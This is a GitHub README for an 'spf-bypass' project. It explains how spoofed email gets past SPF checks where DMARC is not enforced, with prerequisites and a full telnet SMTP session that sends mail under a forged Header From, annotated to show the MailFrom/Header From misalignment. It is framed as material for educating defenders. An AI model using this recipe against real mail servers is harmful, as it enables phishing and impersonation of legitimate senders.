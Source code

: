 # spf-bypass
PLEASE NOTE THIS PROJECT WILL BE SUBJECT TO FREQUENT CHANGES

This project is meant to educate defenders and demonstrate the ease at which threat actors can abuse insecure domains for the delivery of spoofed email.
Utilising a security deficiency known as SPF-bypass, threat actors can deliver emails which provide no indication of malicious intent and can fool the most experienced Security professionals.

Please see https://dmarc.org/wiki/FAQ for a detailed overview of email authentication protocols (i.e. SPF, DKIM and DMARC).
Please see below for a detailed overview of how professionnal spammers bypass SPF where DMARC hasn't been setup in a hardened configuration.

Prerequisites to successfully deliver spoofed mail (utilising SPF-bypass techniques):
1. A domain you control (approx. cost $12-15 AUD/yr - see https://au.godaddy.com/)
2. A Server or VPN with a dedicated public IP that hasn't blocked outbound traffic over port 25 (approx. $80-150 AUD/yr)
3. Configure the DNS TXT Zone file for the purchased domain, to include the Server or VPN public IP in its public SPF record (see https://au.godaddy.com/help/add-an-spf-record-19218)

Upon completion of the above 3 steps, you'll be able to successfully demonstrate the delivery of spoofed mail utilising SPF-bypass techniques

To perform an SPF-bypass attack, simply run the below telnet commands that can be executed on any Windows or Linux endpoint. Replace <target.mailserver.com> with the target mail server you're delivering the spoofed email to (i.e. the recipient - lookup the MX record of the recipient domain to identify this), replace <attacker@attackerdomain.com> with the domain you procured and setup earlier, replace <Legitimate_Sender@spoofed.com> with the address and domain you're spoofing and replace <target@target.com.au> with your target recipient.


    telnet target.mailserver.com 25
    helo attackerdomain.com
    mail from: attacker@attackerdomain.com
    rcpt to: target@target.com.au
    data
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com>
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test

    .

What we're abusing here is a weakness in the way emails are delivered, authenticated and presented to a users screen. If we break down each component of the above mail delivery we can see how the SPF-bypass abuses a domain misalignment between the 'SMTP MailFrom' and 'Mail Header From':

    telnet target.mailserver.com 25 
    helo attackerdomain.com <--- If the SMTP.MailFrom is empty (row below), SPF authentication instead relies on the SMTP.helo
    mail from: attacker@attackerdomain.com <-- This is where SPF checks are typically performed. If we mis-align this to the 'Mail Header From' we can trick the recipient
    rcpt to: target@target.com.au
    data
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com> <--- This is where SPF-bypass occurs - DMARC protects against this by performing an alignment check betwen both 'From' values
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test
    
    .

